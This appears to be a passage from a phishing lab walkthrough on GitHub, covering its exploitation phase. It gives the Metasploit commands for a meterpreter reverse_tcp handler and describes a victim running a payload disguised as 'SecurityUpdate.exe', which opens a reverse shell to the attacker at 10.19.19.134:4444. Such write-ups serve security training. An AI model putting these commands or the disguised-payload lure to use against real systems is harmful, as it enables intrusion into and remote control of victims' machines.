 # Phase 4: Exploitation

## 🌟 Objective:
Trigger the execution of the malicious payload on the victim's system.

### Steps:

1. Prepare the Metasploit Framework

    Now that we’ve sent the phishing email and the target has clicked the malicious link, we need to activate the payload using **Metasploit**.

    - **Run the command**: `msfconsole` to start the Metasploit console.

    - Then, use the exploit handler by entering the following command:
```
use exploit/multi/handler
```
- This configures the Metasploit framework to handle incoming connections from the payload on the target system.

![image](https://github.com/user-attachments/assets/2b9f26c2-9ef3-47ae-87fa-c33ac937abcb)

2. Configure the Exploit Settings

    Configure Metasploit to match the parameters used when creating the payload:

- Set **PAYLOAD** to `windows/x64/meterpreter/reverse_tcp`
- Set **LHOST** to the attacker's IP address (the system that the victim will connect to).
- Set **LPORT** to the port that the attacker's machine is listening on.
- **Run** the Exploit

### Command Example:

```
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.19.19.134
set LPORT 4444
run
```

This ensures the reverse shell connects back to the attacker’s system on the correct IP and port.

#### Victim Interaction:
- The victim receives the phishing email and clicks the shortened link.
- They download the payload (`SecurityUpdate.exe`) from the attacker's Python HTTP server.

#### Executing the Payload:
- The victim runs the `SecurityUpdate.exe` file via Command Prompt with administrator privileges.
- The malicious executable executes silently in the background.

#### Establishing a Reverse Connection:
- The payload establishes a reverse TCP connection to the attacker’s machine at **10.19.19.134:4444**.
- The attacker gains remote control over the victim’s machine.





